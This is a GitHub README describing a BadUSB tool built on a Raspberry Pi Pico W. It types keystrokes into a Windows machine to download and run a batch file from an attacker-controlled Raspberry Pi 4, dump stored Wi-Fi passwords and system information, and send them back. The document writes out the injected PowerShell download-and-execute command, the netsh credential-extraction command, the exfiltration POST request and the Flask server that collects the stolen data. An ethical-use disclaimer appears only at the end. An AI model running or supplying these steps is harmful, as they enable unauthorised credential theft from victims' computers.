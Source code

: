 # 🔥 BadUSB Wi-Fi Data Extractor with Raspberry Pi 4 & Pico W

## 📖 Overview
This project demonstrates how a **Raspberry Pi Pico W** can emulate a **BadUSB device**, injecting commands to a Windows machine via HID (Human Interface Device). The script downloads a **batch file (`testscript.bat`)** from a **local server running on a Raspberry Pi 4**, executes it, and sends back **Wi-Fi credentials and system information**.

---

## 🛠️ **Hardware Used**
- ✅ **Raspberry Pi 4** (runs the HTTP server and collects data)
- ✅ **Raspberry Pi Pico W** (acts as a BadUSB, injects keystrokes)
- ✅ **Target Machine** (Windows-based, where the script runs)

---

## 🏗️ **Project Structure**

```
GitHub repository is structured as follows:
📦 YourRepo  ┣ 📂 httpserver                              ┃  
             ┣ 📜 server.py                               ┣ 📜 testscript.bat
             ┗ 📜 README.md # Documentation (this file)   ┣ 📜 code.py
             ┗ 📜 .gitignore
```



---

## 📥 **Setup & Installation**

### 🖥️ **1. Setting Up Raspberry Pi 4 (HTTP Server)**
The Raspberry Pi 4 will act as a **web server** hosting `testscript.bat` and collecting data sent from the Windows machine.

#### 🔹 **Step 1: Install Dependencies**
First, install **Flask** (for handling data uploads):
```bash
sudo apt update && sudo apt install python3 python3-pip -y
pip3 install flask
```
#### 🔹 **Step 2: Install Dependencies**
```bash
git clone https://github.com/JelleWierenga/Keystroke-injection/tree/main/badusb
cd badusb/httpserver
```

#### 🔹 **Step 3: Inside your repo, create the required folders and files:**
```bash
mkdir httpserver
touch code.py
touch httpserver/server.py
touch httpserver/testscript.bat
touch httpserver/README.md
touch .gitignore
```

#### 🔹 **Step 4: Run the HTTP Server**
To start a basic file server on port `8080`, run:
```bash
python3 -m http.server 8080
```
This allows the Windows machine to download `testscript.bat`.
#### 🔹 **Step 5: Run the HTTP Server**
Now, launch the Flask server (`server.py`) to receive Wi-Fi credentials:
```bash
python3 server.py
```
**The Flask server listens on port** `5000` and stores incoming data in `collected_data.txt`.

### 🎛️ **2. Setting Up the Raspberry Pi Pico W (BadUSB Payload)**
The Pico W will act as a BadUSB device, injecting keystrokes to download and execute the batch script from the Raspberry Pi 4.

#### 🔹 **Step 1: Install CircuitPython**
1. Download the latest CircuitPython firmware for the Pico W from:
   👉 https://circuitpython.org/board/raspberry_pi_pico_w/
2. Hold **BOOTSEL** on the Pico W and connect it via USB.
3. Drag and drop the `.uf2` file onto the RPI-RP2 drive.

#### 🔹 **Step 2: Install Required CircuitPython Libraries**
Download and place these libraries in `CIRCUITPY/lib/`:
`adafruit_hid`
`usb_hid`
#### 🔹 **Step 3: Upload `code.py` to the Pico W**
Copy `code.py` from the GitHub repository to `CIRCUITPY/` on the Pico W.
#### 🔹 **Step 4: Test the BadUSB Execution**
Once plugged into a Windows machine, the Pico W will:
1. **Open CMD via Win + R**
2. **Run a PowerShell command to download** `testscript.bat`
3. **Execute the script, extract Wi-Fi passwords, and send them to the Pi 4**

## 🚀 How It Works
### 📡 1.  BadUSB Payload Execution (Pico W)
The `code.py` script simulates keyboard input, injecting:

```bash
Invoke-WebRequest -Uri "http://{rpi ip}:8080/testscript.bat" -OutFile "C:\\Temp\\testscript.bat"; Start-Process -FilePath "cmd.exe" -ArgumentList "/c C:\\Temp\\testscript.bat" -NoNewWindow -Wait
```
This **downloads and executes** the `testscript.bat` file.

### 🖥️ 2. Batch Script Execution on Windows
The t`estscript.bat` script:

1. Retrieves system information (`systeminfo`)
2. Extracts stored Wi-Fi credentials:
```bash
netsh wlan show profile name="SSID" key=clear
```
3. Sends the data back to the Raspberry Pi 4 via:
```bash
Invoke-WebRequest -Uri "http://{rpi ip}:5000/upload" -Method POST -InFile "C:\\Temp\\wifi_password.txt" -ContentType "text/plain"
```

### 🌍 3. Data Reception & Storage (Pi 4)
The `server.py` script listens for POST requests and logs incoming data:
```python
from flask import Flask, request
app = Flask(__name__)
@app.route('/upload', methods=['POST'])
def upload():
    data = request.data.decode("utf-8")
    with open("collected_data.txt", "a") as f:
        f.write(data + "\n")
    return "Data received", 200
app.run(host='0.0.0.0', port=5000)
```

## 🛡️ Security & Ethical Considerations
🚨 **This project should only be used for educational and security research purposes on your own devices!** 🚨
* Do **NOT** use this on unauthorized systems.
* **Penetration testing without consent is illegal.**
* Modify the project to collect **only your own network information.**

## ⚠️ Disclaimer
I, the creator of this project, am **not responsible for any misuse, harm, or illegal activities** conducted using this tool. This project is intended **strictly for educational and ethical hacking purposes**. Any misuse of this information is **solely the responsibility of the user.**